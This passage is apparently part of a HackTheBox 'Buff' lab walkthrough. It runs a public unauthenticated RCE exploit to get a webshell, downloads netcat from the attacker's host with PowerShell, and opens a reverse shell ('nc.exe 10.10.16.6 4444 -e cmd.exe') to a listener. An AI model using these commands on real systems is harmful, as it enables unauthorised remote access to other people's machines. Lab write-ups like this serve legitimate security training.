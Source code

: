 There are some exploits.

# Exploitation

---

I download the unauthenticated exploit, rename it so that it has a better name and execute:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ mv 48506.py rce_exploit.py

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ python rce_exploit.py http://buff.htb:8080/ 
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

I have a shell, but this one works using a webshell, so I cannot change directories. I download nc to the machine in order to create a real webshell:

```bash
C:\xampp\htdocs\gym\upload> powershell wget http://10.10.16.6/nc64.exe -OutFile nc.exe
�PNG

C:\xampp\htdocs\gym\upload> dir
�PNG

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

19/09/2021  15:42    <DIR>          .
19/09/2021  15:42    <DIR>          ..
19/09/2021  15:39                53 kamehameha.php
19/09/2021  15:42            45,272 nc.exe
               2 File(s)         45,325 bytes
               2 Dir(s)   7,391,744,000 bytes free
```

It's time to create the reverse shell:

```bash
C:\xampp\htdocs\gym\upload> nc.exe 10.10.16.6 4444 -e cmd.exe
```

Now, look at the netcat listener (I used rlwrap to get a more stable shell):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.198] 49789
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
buff\shaun
```

